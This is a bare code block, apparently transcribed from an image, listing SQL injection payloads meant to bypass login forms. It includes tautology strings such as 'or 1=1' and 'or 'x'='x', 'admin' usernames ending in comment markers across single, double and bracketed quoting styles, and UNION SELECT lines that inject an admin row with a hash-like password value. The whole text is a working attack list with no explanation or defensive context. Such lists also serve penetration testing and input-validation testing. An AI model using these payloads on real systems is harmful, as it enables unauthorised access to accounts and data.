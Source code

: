 ```
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
